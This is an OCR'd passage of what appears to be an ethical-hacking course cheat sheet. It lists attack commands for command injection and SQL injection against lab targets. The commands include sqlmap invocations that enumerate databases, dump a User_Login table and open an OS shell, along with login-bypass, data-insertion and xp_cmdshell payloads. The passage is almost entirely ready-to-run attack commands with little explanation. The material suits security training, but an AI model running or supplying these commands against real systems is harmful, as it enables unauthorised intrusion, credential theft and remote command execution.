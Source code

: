###### Clickjacpoc

Clickjacpoc - https://github.com/Raiders0786/ClickjackPoc

###### Commadn Injection RCE
ping 127.0.0.1 | hostname | net user


## Module 15: SQL Injection 

### SQLMAP Extract DBS
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs
###### Extract Tables
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables
###### Extract Columns
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns
###### Dump Data
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump
###### OS Shell to execute commands
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell
###### Login bypass
blah' or 1=1 --
###### Insert data into DB from login
blah';insert into login values ('john','apple123');
###### Create database from login
blah';create database mydatabase;
###### Execute cmd from login
blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --

### Low SQLMAP

 `sqlmap -u "http://192.168.1.111:8001/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=6f68acb14482d2b591b30f6bf4cba763;security=low" -p id -v --dbs`

### Medium SQLMAP

`sqlmap -u "http://192.168.1.107:8001/vulnerabilities/sqli/#"  --cookie="PHPSESSID=59d6f8d0984c4563d68cdbfa2bb6ccbf;security=medium" --data="id=1&Submit=Submit" -p id --random-agent -v  --dbs`

### High SQLMAP
`sqlmap -u "http://192.168.1.111:8001/vulnerabilities/sqli/session-input.php" --cookie="PHPSESSID=6f68acb14482d2b591b30f6bf4cba763;security=high" --data="id=1&Submit=Submit" -p id --second-url http://192.168.1.111:8001/vulnerabilities/sqli/ --dbs --flush-session`

## Module 17: Hacking Mobile Platforms

